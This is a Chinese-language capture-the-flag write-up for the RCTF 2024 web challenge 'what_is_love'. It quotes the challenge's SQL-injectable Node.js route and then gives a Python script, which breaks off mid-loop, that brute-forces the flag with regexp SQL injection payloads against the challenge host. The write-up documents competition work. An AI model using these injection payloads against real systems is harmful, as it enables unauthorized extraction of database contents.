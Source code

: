 ```yaml
---
title: 2024 XCTF 联赛 RCTF 部分题解
tags: Writeup
categories: Writeup
date: 2024-05-28 15:00:00
toc: true
---
```


大哥冇點打，真係可惜。



# Web

## what_is_love

看源码flag分为两块，key1和key2

### key1

sql注入 正则匹配拿love_key

ps：有字符长度限制，key1实际长度较长，需要^和$分别从前后匹配何必确定key内容，最后校验可以通过key1路由判断是否正确

```JavaScript
app.post("/key1", (req, res) => {
  const { key1 } = req.body;
  if (key1.length > 52 || !isSafe(key1)) {
    return res.send("love waf");
  }
  let res1 = `SELECT * FROM key1 WHERE love_key = '${key1}'`;
  db.query(`SELECT * FROM key1 WHERE love_key = '${key1}'`, (err, results) => {
    if (err) {
      res.send("error");
    } else if (results.length > 0) {
      res.send("success");
    } else {
      res.send("wrong");
    }
  });
});

```

Exp:

一开始用Binary判断大小写，后来看到题目说全大写就不校验了，节约字符长度限制

```Python
import requests
import string

dicts = string.ascii_letters + string.digits + "-_{}"
session = requests.session()

# flag = "RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW"
flag = "t_to_know"
# RCTF{THE_FIRST_STEP_IS_to_get
for j in range(20):
    for i in dicts:
        # payload = f"'||love_key regexp '{flag+i}$'#"
        payload = f"'||love_key regexp '{i+flag}$'#"
        print(payload)
        burp0_url = "http://1.94.13.174:10088/key1"
```
